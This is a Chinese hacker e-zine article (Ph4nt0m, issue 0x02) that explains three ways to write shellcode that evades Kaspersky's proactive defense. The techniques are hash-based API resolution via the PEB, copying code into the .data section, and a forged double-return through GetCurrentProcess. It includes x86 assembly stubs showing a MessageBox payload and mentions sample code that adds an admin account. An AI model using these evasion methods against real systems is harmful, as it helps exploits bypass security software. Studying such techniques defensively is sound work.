




==Ph4nt0m Security Team==
Issue 0x02, Phile #0x08 of 0x0A
|=---------------------------------------------------------------------------=|
|=-----------------=[ 绕过卡巴斯基主动防御系统方法的讨论 ]=----------------=|
|=---------------------------------------------------------------------------=|
|=---------------------------------------------------------------------------=|
|=------------------------=[ By lisl03 ]=-----------------------=|
|=----------------------=[ <lisl03_at_gmail.com> ]=---------------------=|
|=---------------------------------------------------------------------------=|
卡巴斯基的主动防御系统自推出以来，大大增强了系统的安全特性，使得以前常用一些
攻击操作变得不那么容易了。在执行溢出攻击的时候，如果我们的ShellCode刚获得执行就
被卡巴给拦了下来，那么经过精心编写的漏洞EXP程序将就此作罢了。因此，有必要研究一下
ShellCode的编程过卡巴斯基主动防御的问题。
通过借鉴gyzy大虾写的《基于栈指纹检测缓冲区溢出的一点思路》及czy在安焦上发表
了《点评“基于栈指纹检测缓冲区溢出的一点思路”》的文章，我将这些知识与技术消化后加
以整理，加上以前自己摸索出来的一些方法与体会，综合成了这篇文章，希望能够对大家有所
帮助。
有关卡巴斯基等个人安全套装产品主动防御的原理就不啰嗦了。需要补充说明的是，实
际上卡巴在做返回地址检查的时候除了检测返回地址是否在栈中，还会检测返回地址是否在
进程的堆空间里。如果检测到函数将要返回到堆中执行，那么卡巴依然会弹出报警窗口。只
是报警窗口给出的提示与栈溢出稍有不同，如图一所示。

图一、 卡巴斯基堆溢出检测提示
本文所附的示例代码ShellCode1.c及ShellCode2.c能证明这一点。这两个文件的主要
区别是ShellCode1.c创建一个新堆申请一块空间后将ShellCode拷贝到该堆空间中执行；
ShellCode2.c是直接在进程的默认堆中申请一块空间将shellcode拷贝执行到该空间执行。
卡巴这样做的目的是使它对堆溢出类型的攻击也能够进行检测。
本文下面主要集中讲解一下绕过卡巴斯基主动防御的ShellCode的编写技巧与方法：
1、不使用被主动防御系统Hook过的函数
最简单的办法就是在编写ShellCode时尽量不调用 GetProcAddress和LoadLibrary函数。
Kernel32.dll与Ntdll.dll是进程启动时必须加载的两个模块。在Win32系统中，Kernel32.dll
是Windows系统中非常重要的动态链接库文件，它提供了系统的内存管理、数据的输入输出
操作等API函数操作。因此，用来编写ShellCode的API函数基本都集中在该Dll文件中。使用
该动态连接库导出API的函数已经能够完成新建账号、拷贝文件执行等等功能ShellCode的
编写要求。使用这种方法时由于我们不能使用GetProcAddress来直接获取函数API地址，在
定位其他要使用的API函数地址时，可以将待定位的函数名与Dll模块Export Directory中找
到的函数名进行匹配。当然最好是先求得待定位的函数名的Hash值，然后执行Hash值比较的
办法进行查找。这样做不仅能降低ShellCode编写的复杂度，由于将函数名都映射为4字节的
编码也大大减少了ShellCode的体积。示例代码ShellCode3.c就是不调用以上特征函数，直
接进行Hash值的匹配定位函数地址，向系统添加管理员账号的例子。
如果我们的ShellCode中要使用其他Dll模块中导出的API函数，而我们又不能调用
LoadLibrary来定位该模块基址怎么办呢？此时可以通过PEB结构的0x0C偏移处指向的
PEB_LDR_DATA结构来定位该模块地址。该结构有三个成员列表的入口包含了进程加载到内
存空间的所有动态链接库信息。这样，如果我们需要使用与网络有关的API函数，那么可以在
PEB中定位到WS2_32.dll模块，然后再查找按照前述的方法找到Socket等函数的地址。当然
如果进程没有加载过我们要使用的Dll模块那么就无法对模块地址进行定位了，这也是使用
这种方法的缺陷。示例代码ShellCode1.c中就是先定位了Ntdll模块的地址，然后再查找到
该模块中的堆分配函数RtlAllocateHeap的例子。
2、将代码拷贝到程序的.Data中再跳转执行
在以前编制漏洞溢出程序的实践中，笔者实际上一直在使用一种绕过卡巴等溢出检测系
统的办法：获取对CPU的控制权后，首先找到一块可写可执行的内存空间，然后将ShellCode搬
移到该地址空间后再跳转执行。当调用GetProcAddress和LoadLibrary函数时，卡巴将认为
函数的返回地址位于一个正常的地址范围内，于是自然对我们的ShellCode的开出了通行证
了。
通常情况下，对于工作在Ring3的应用程序来说.text段是不可写的，于是我们将目光转
向可执行程序的.data段。在Win32系统中，节在磁盘文件中的对齐单位（200h, 512Byte）要
小于内存对齐的单位（1000h, 4K Byte）。因此，一般而言可执行文件映射到内存后总有一段
空闲的空间，我们“借用”该空间后并不会破坏原有的文件数据。应用程序.data段的地址见
图二：
图二、 程序内存地址空间的分布
从OllyDbg中可以看出Demo程序的.data段从地址0x407000开始，自地址0x407380之后
.data段的内容基本上为0。示例代码ShellCode4.c首先从模块Kernel32.dll中定位导出的
在ShellCode的功能实现部分需要使用的API函数，并保存在以ESI指示的一段栈空间中。拷
贝函数首先保存待拷贝代码起始地址，然后拷贝的已定位好的API函数地址，再拷贝ShellCode
的功能代码，最后跳转到拷贝好的ShellCode中执行。具体过程就不讲解了，结合程序中的注
释相信读者很快就能看懂。完成的代码请看示例代码ShellCode4.c。
mov dword ptr [esi+_BUFF], 0x407380//拷贝代码的目的地址
call MEMCPY_CODE
//-------------编写实现功能的shellcode汇编代码-------------
mov esi, dword ptr [esi+_BUFF]
push 00003233h
push 72657375h
push esp //将“User32”字符串入栈
call dword ptr [esi+BUF_LOADLIBRARYA] //调用LoadLibraryA（“User32”）
mov dword ptr [esi+BUF_USER32],eax //将User32模块地址入栈
mov ebx,eax
push 0x0041786f
push 0x42656761
push 0x7373654D //MessageBoxA
push esp
push ebx
call dword ptr [esi+BUF_GETPROCADDRESS]//调用GetProcAddress函数
mov dword ptr [esi+BUF_MESSAGEBOXA],eax
push 216fh
push 6c6c6548h //Hello!
mov dword ptr [esi+BUF_HELLO], esp
push 0000007Eh
push 7E7E7E7Ah
push 68646D43h
push 7E7E7E7Eh //~~~~Cmdhz~~~~
mov dword ptr [esi+BUF_CMDHZ], esp
push 0
push dword ptr [esi+BUF_HELLO]
push dword ptr [esi+BUF_CMDHZ]
push 0
call dword ptr [esi+BUF_MESSAGEBOXA] //调用MessageBox函数
push 0
call dword ptr [esi+BUF_EXITPROCESS] //调用ExitProcesox退出进程
//-------------编写实现功能的shellcode汇编代码结束-------------
MEMCPY_CODE:
pop eax
mov dword ptr [esi+_FUNCSTART], eax //保存待拷贝代码起始地址
push esi
mov ecx, FUNCNUMBER //拷贝将要使用的API函数地址
mov edi, dword ptr [esi+_BUFF]
lea esi, dword ptr [esi+_LOADLIBRARYA]
rep MOVS dword ptr [edi], dword ptr [esi]
pop esi
push esi //拷贝实现功能的shellcode代码
mov ecx, SCLENGTH
mov esi, dword ptr [esi+_FUNCSTART]
shr ecx, 2
rep MOVS dword ptr [edi], dword ptr [esi]
pop esi
push esi
mov ecx, SCLENGTH //避免指令字节没有按照4字节对齐的情况
and ecx, 0x3
rep MOVS byte ptr [edi], byte ptr [esi]
pop esi
mov eax, dword ptr [esi+_BUFF]
add eax, 4*3 //跳过API函数地址占用的空间
jmp eax
这种方法的缺点是：可能由于程序没有加载到默认的内存地址而造成.data段在内存中
的地址不固定，从而造成写到.data段空间失败。
3、通过两次返回绕过主动防御的检测
Czy在《点评“基于栈指纹检测缓冲区溢出的一点思路”》一文中提到的绕过方法很有特
点，作者经过一番调试后将原理阐述如下：
我们知道在进行函数调用时堆栈的分布情况如图三（A）所示。当我们在ShellCode中调
用GetProcAddress时，如果在函数真实的返回地址之前插入一个在Kernel32.dll模块的地址
空间范围的地址B，此时函数调用时堆栈的分布情况如图三（B）所示。那么主动防御系统在进
行检测时将认为本次调用为一个正常API调用，从而顺利拿到了卡巴颁发给ShellCode的通行
证。当调用结束将执行时流返回到地址B，而地址B处保存的为条跳Ret指令，那么程序将再一
次执行返回操作，程序将正确地返回到地址A处继续执行。

图三、 程序内存地址空间的分布
在Kernel32.dll的导出函数中有一个异常简单的导出函数GetCurrentProcess，反汇编
显示该函数只有以下两条语句：

图四、 GetCurrentProcess函数的反汇编实现
我们就使用GetCurrentProcess函数地址向下偏移3 byte处的地址作为地址B来控制程
序的跳转。在程序实现时使用了一个技巧，先执行Call Func1在不改变程序流程的情况下向
栈中压入当前EIP的值，add dword ptr [esp], 0xD指令修改该压入的返回地址值为正确的
函数返回地址。在准备好函数参数后，直接Jmp到函数的地址处执行。完成的代码请看示例
代码ShellCode5.c。
//-------------编写实现功能的shellcode汇编代码-------------
push 00003233h
push 72657375h //将"User32"字符串入栈
mov dword ptr [esi+_USER32STR], esp
call FUNC1
FUNC1:
add dword ptr [esp], 0xD //修改函数返回地址
push dword ptr [esi+_USER32STR]
push DWORD ptr [esi+_GETCURRENTPROCESS] //压入伪造的返回地址
jmp dword ptr [esi+_LOADLIBRARYA] //调用LoadLibraryA（“User32”）
mov dword ptr [esi+_USER32],eax
push 0x0041786f
push 0x42656761
push 0x7373654D //MessageBoxA
mov dword ptr [esi+_MESSAGEBOXSTR], esp
call FUNC2
FUNC2:
add dword ptr [esp], 0x10 //修改函数返回地址
push dword ptr [esi+_MESSAGEBOXSTR]
push dword ptr [esi+_USER32]
push dword ptr [esi+_GETCURRENTPROCESS] //压入伪造的返回地址
jmp dword ptr [esi+_GETPROCADDRESS]
mov dword ptr [esi+_MESSAGEBOX],eax
push 0000007Eh
push 7E7E7E7Ah
push 68646D43h
push 7E7E7E7Eh //~~~~Cmdhz~~~~
mov dword ptr [esi+_CMDHZ], esp
push 216fh
push 6c6c6548h
mov dword ptr [esi+_HELLO], esp
push 0
push dword ptr [esi+_HELLO]
push dword ptr [esi+_CMDHZ]
push 0
call dword ptr [esi+_MESSAGEBOX] //调用MessageBox函数
push 0
call dword ptr [esi+_EXITPROCESS] //调用ExitProcess退出进程
//编写实现功能的shellcode汇编代码结束
上面的代码中，细心的读者也许会问，为什么修改修改该压入的函数返回地址时加的值
是0xD呢？其实这个值是压入函数参数及跳转指令的机器代码的字节长度。如下图五所示：压
入堆栈中的返回地址是0x10ffec，而函数在执行完LoadLibrary后正确的返回地址是0x10ff9。
两个地址的差值为0x10ff9 － 0x10ffec ＝ 0xD，所以应该修正返回地址时应该加上0xD。调
用GetProcAddress时修正返回地址的计算方法与此相似。

图五、 函数返回地址的修改
有关绕过主动防御的方法就介绍到这里了。读者会发现后两种方法从原理上而言具有
一定的相似性，只是在实现上不同罢了。在这种方法里，是不是可以在内存中找一条jmp esp
指令来代替GetCurrentProcess的返回地址呢？取GetCurrentProcess函数地址的方法有什么
好处？通过几个简单的试验就能解答这些问题了。
本文代码打包下载(./pstzine_08_01.zip)
-EOF-